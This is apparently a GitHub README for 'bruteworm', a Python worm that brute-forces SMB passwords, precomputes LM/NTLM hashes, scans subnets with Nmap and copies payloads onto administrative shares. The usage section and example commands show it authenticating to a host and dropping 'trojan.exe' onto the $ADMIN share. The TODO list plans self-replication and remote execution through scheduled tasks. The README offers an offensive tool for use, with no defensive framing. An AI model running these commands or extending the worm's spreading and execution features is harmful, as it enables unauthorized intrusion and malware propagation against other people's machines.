 # bruteworm
A simple worm that uses brute force and dictionary attacks through the network to infect vulnerable machines.

Inspired from the famous [SMB Worm Tool](http://www.securityweek.com/hackers-used-sophisticated-smb-worm-tool-attack-sony).

Currently limited to making connections with SMB directly over TCP (445) and SMB via NetBIOS API (139), but I may add support for more protocols in the future.

### Dependencies
* Python 2.7
* Nmap 6.4

### Features
* Generates LM/NTLM hash lists from dictionary words or variable length permutations of specified alphabets
* Scans for hosts with SMB running (forwards to Nmap) and performs OS detection upon session negotiation
* Copies files from local host to public or administrative shares when correct password found

### Usage
```bash
usage: bruteworm [-h] [-i INPUT] [-o OUTPUT] [-d DICTIONARY DICTIONARY] [-b]
                 [-c COUNT] [-n MIN] [-x MAX] [-a ALPHABET] [-t TARGET]
                 [-p PORT] [-u USER] [-s SHARE] [-v]
                 {build,scan,infect}

positional arguments:
  {build,scan,infect}                   interaction with specified hosts/subnet victims

optional arguments:
  -h, --help                            show this help message and exit
  -i INPUT, --input INPUT               source file path
  -o OUTPUT, --output OUTPUT            destination file path
  -d FILE PATH, --dictionary HASH PATH  attack of either type pass|hash + dictionary file path
  -b, --bruteforce                      use brute force for password guessing
  -c COUNT, --count COUNT               number of hashes to generate
  -n MIN, --min MIN                     minimum number characters in password
  -x MAX, --max MAX                     maximum number characters in password
  -a ALPHABET, --alphabet ALPHABET      alphabet of allowed characters without spaces
  -t TARGET, --target TARGET            target hosts/subnet e.g. 192.168.2.10, 192.168.2.0/24
  -p PORT, --port PORT                  target port e.g. 139
  -u USER, --user USER                  target username to use for authentication
  -s SHARE, --share SHARE               target share name to drop malware
  -v, --verbosity                       console has 3 verbosity levels
```

### Examples
Generate precomputed hashes from a dictionary of words:
```bash
python bruteworm build -vvv -i /path/to/dictionary -o /save/to/hashes
```
Generate precomputed hashes for all possible passwords of 3-6 digits with lower case characters and digits:
```bash
python bruteworm build -vvv -i -n3 -x6 -o /save/to/hashes -a abcdefghijklmnopqrstuvwxyz0123456789
```
Authenticate as user john at host 192.168.1.135 using a password dictionary and copy trojan.exe to share $ADMIN:
```bash
python bruteworm infect -vvv -t 192.168.1.135 -d pass /path/to/dictionary -i trojan.exe -o trojan.exe -u john -s $ADMIN
```

### TODOs
* Make worm standalone so it can replicate itself more easily - as opposed to only acting as a dropper
* Add support for remotely executing copied files using scheduled tasks or other API
* Add support for user enumeration

